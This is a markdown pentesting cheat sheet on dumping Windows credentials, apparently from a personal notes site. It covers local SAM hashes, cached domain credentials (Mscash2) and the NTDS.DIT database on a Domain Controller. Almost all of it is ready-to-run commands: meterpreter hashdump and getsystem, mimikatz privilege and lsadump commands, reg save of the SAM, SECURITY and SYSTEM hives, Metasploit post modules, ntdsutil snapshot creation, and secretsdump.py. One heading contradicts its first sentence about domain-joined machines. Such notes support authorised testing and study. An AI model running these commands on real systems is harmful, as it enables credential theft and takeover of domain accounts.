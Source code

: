 ```yaml
---
title: Dumping Windows Credentials
draft: false
tags:
  - pentesting
  - windows
  - credentials
---
```

# Dumping Windows Credentials

https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials

##  Terminology

- SAM: Database file that contains local username and passwords (like /etc/shadow)
- NTDS.DIT: Database file that contains all Active Directory objects, stored on DC
- DC: Domain Controller

##  Prerequisites

NT AUTHORITY\SYSTEM (aka Administrator) is needed to dump credentials.

```
meterpreter > getsystem

mimikatz > privilege::debug
mimikatz > token::elevate
```

## Non domain-joined machine

With domain-joined machines, passwords will be saved locally in `C:\Windows\System32\config\SAM`

Returns: `username:rid:lm:nt::::`

```
meterpreter > hashdump

reg save HKLM\SAM SAM
reg save HKLM\SYSTEM SYSTEM
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

## Domain joined machine

With a domain joined machine (that is not a Domain Controller) we can extract local passwords from SAM and also cached passwords (Mscash2). 

Returns: `username:hash::`

```
meterpreter > bg
msf6 > use post/windows/gather/cachedump

mimikatz > lsadump::cache

reg save HKLM\SAM SAM
reg save HKLM\SECURITY SECURITY
reg save HKLM\SYSTEM SYSTEM
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

## Domain Controller

Having access to a Domain Controller (DC) gives us access to NTDS.DIT. We cannot copy this file normally, as it's always in use, but we can use ntdsutil or vssadmin. 

Returns: `domain\username:rid:lm:nt::::`

```
meterpreter > bg
msf6 > use post/windows/gather/credentials/domain_hashdump

powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
secretsdump.py -ntds NTDS.DIT -security SECURITY -system SYSTEM LOCAL
```

## Next Steps
- [[Cracking Dumped Windows Hashes|Cracking Dumped Windows Hashes]]
- [[Pass-the-Hash Attack|Pass-the-Hash Attack]]
